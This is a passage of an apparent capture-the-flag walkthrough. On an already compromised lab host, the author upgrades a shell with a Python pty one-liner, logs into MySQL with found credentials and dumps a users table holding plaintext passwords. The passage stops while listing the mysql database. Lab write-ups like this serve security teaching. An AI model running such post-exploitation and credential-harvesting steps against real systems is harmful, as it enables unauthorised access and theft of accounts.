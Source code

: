 Next, lets check out the SQL server.
```bash
bash-3.00$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.00$ mysql -u john -p
mysql -u john -p
Enter password: hiroshima

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 53 to server version: 4.1.22

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+----------+
| Database |
+----------+
| mysql    |
| test     |
| webapp   |
+----------+
3 rows in set (0.00 sec)

mysql>
```
I'll start with webapp and work up.
```bash
mysql> use webapp; show tables;
use webapp; show tables;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
+------------------+
| Tables_in_webapp |
+------------------+
| users            |
+------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
|    1 | admin    | 5afac8d85f |
|    2 | john     | 66lajGGbla |
+------+----------+------------+
2 rows in set (0.00 sec)

mysql>
```
This gives us two more sets of credentials: `admin:5afac8d85f` and `john:66lajGGbla`. Now we can check out the other database, test.
```bash
mysql> use test; show tables;
use test; show tables;
Database changed
Empty set (0.00 sec)

mysql>
```
This database is empty unfortunately. Finally we can check out the default MySQL database.
```bash
mysql> use mysql; show tables;
```